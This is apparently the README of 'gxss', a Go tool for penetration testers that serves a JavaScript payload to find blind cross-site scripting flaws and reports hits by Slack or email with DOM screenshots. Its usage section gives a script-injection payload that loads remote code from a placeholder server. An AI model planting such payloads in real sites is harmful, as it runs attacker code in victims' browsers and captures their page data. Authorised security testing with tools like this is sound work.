

## Blind XSS as a service

**gxss** is a simple tool which serves a javascript payload and allows to identify blind XSS vulnerabilities. This is similar to [xsshunter](https://github.com/mandatoryprogrammer/xsshunter), but a bit simpler to configure and run. Alerts can be sent via Slack or email. Emails will also have a screenshot of the DOM attached (which is not possible over the Slack webhook API).



*Note: The javascript payload was taken (and slightly modified) from [xsshunter](https://github.com/mandatoryprogrammer/xsshunter)*

### Installation

```
go get -u github.com/rverton/gxss
```

### Configuration

Create a file called `.env` or set up your environment to export the following data:
```
PORT=8080
MAIL_SERVER=mail.example.com:25
MAIL_USER=user
MAIL_PASS=pass
MAIL_TO=hello@robinverton.de
MAIL_FROM=gxss@robinverton.de
SLACK_WEBHOOK=https://hooks.slack.com/XYZ
SERVE_URL=localhost:8080
```

The `SERVE_URL` is the public accessible URL of your server.

You can leave the `MAIL_*` or the `SLACK_WEBHOOK` setting blank if you do not want to use it. Find more about how to setup Slack webhooks [here](https://api.slack.com/incoming-webhooks).

### Usage

```
$ gxss
```

You can now use a payload like the following which will load and execute the javascript payload:

```html
<script src=//yourserver.com></script>
```

gxss can also be used as a request bin. Every request matching `//yourserver.com/k{key}` will be alerted to you. Example:

```html

```
